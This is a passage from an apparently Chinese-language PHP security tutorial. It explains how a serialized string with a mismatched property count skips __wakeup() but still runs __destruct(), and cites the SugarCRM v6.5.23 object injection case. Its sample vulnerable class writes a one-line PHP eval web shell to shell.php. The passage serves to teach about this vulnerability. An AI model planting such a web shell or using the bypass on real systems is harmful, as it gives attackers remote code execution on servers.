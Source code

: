 ```
}

$str = 'O:6:"Test10":2:{s:3:"str";s:5:"Hello";}';
var_dump(unserialize($str));
```
看一下结果：

![](/uploads/Test10.png)

只执行了`__destruct()`方法，并没有执行`__wakeup()`方法。

这个安全Bug造成严重安全问题著名的案例就是***[SugarCRM v6.5.23 PHP反序列化对象注入漏洞](https://www.anquanke.com/post/id/84549)***.

漏洞的基本原理代码如下(以下代码摘自安全客)：

```
<?php
class Test
{
   private $poc = '';
   public function __construct($poc)
   {
       $this->poc = $poc;
   }
   function __destruct()
   {
       if ($this->poc != '')
       {
           file_put_contents('shell.php', '<?php eval($_POST['shell']);?>');
           die('Success!!!');
       }
       else
       {
           die('fail to getshell!!!');
       }        
   }
   function __wakeup()
   {
       foreach(get_object_vars($this) as $k => $v)
       {
           $this->$k = null;
       }
       echo "waking up...n";
   }
}
```